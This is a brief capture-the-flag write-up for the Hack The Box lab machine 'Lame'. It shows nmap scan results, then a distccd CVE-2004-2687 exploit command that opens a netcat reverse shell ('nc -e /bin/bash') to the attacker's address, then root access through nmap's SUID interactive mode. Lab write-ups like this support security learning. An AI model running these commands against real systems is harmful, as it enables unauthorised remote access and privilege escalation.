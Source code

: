 # Lame (HTB beginner track)  

## Nmap  

Ports 0-15000.  

```
21/tcp   open  ftp         syn-ack vsftpd 2.3.4
22/tcp   open  ssh         syn-ack OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     syn-ack distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```  

smb OS discovery.  

```
smb-os-discovery: 
OS: Unix (Samba 3.0.20-Debian)
Computer name: lame
NetBIOS computer name: 
Domain name: hackthebox.gr
FQDN: lame.hackthebox.gr
```  

## Shell  

Using the vulnerability of the distccd service.  

`nmap -Pn -p 3632 10.129.245.76 --script distcc-cve2004-2687 --script-args=distcc-cve2004-2687.cmd='nc -e /bin/bash 10.10.14.85 4444'`  

## Priv esc  

Finding nmap with a SUID bit set.  

```
nmap --interactive
nmap !sh
# whoami
# root
```
